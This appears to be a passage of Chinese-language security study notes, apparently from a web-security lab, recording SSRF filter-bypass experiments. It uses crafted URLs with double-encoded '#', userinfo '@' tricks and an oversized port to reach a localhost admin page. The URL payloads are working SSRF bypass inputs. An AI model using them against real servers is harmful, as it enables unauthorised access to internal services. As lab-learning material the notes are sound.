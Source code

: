 ### 補充

`http://localhost%2523@stock.weliketoshop.net:2147483647/admin`
上面這個網址在解析的時候，`stock.weliketoshop.net` 後面的冒號正常來說是 `port`，但是與真正請求的 `hostname` 沒有關係，但只能是數字，而且要小於 `2^31-1` 這個值，因為從給了一堆 0 來測試，先確定了位數之後，再由最高位從 9 往下測試，只要沒有報錯就繼續往下一位，能確定解析的時候，`port` 是以**有號整數**儲存的

---

`http://localhost%2523@stock.weliketoshop.net:2147483647//admin`
如果給了 `//admin` 會 not found

---

`http://localhost:80%2523@stock.weliketoshop.net:2147483647//admin`
在 `localhost` 後面補上 `port` 也能正常請求，所以真正的 `port` 是前面的那一個

---

`http://localhost:80%2523@stock.weliketoshop.net:2147483647?/admin` 跟 `http://localhost:80%2523@stock.weliketoshop.net:2147483647#/admin`
會被截斷在 `?` 與 `#` 處，所以只會請求到 `/` 而不會請求 `admin`

---

```
http://localhost:80%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523%2523@stock.weliketoshop.net:2147483647/admin
```

也測試瘋狂給 encode 過的 `#`，可以正常解析
也有串到總長到 60000 多字過，但網頁還是能正常解析，可能打不了 `regex DoS`

---

`http://localhost:80%2523@stock.weliketoshop.net:2147483647/admin???????&&&&&#?%2523&1=1#?#`
上面這個在 `admin` 後面可以有無限多連續的 `?` 跟 `&`，但 `#` 不能連著出現(但可以 `#%2523`)


## 參考資料

* https://github.com/w181496/Web-CTF-Cheatsheet
* https://github.com/splitline/How-to-Hack-Websites/blob/master/slides/week/week2.pdf
* https://github.com/frohoff/ysoserial
* https://github.com/maurosoria/dirsearch
* https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf
* https://en.wikipedia.org/wiki/Uniform_Resource_Identifier
* https://www.anquanke.com/post/id/255222
* https://www.rfc-editor.org/rfc/rfc3986#section-3.2
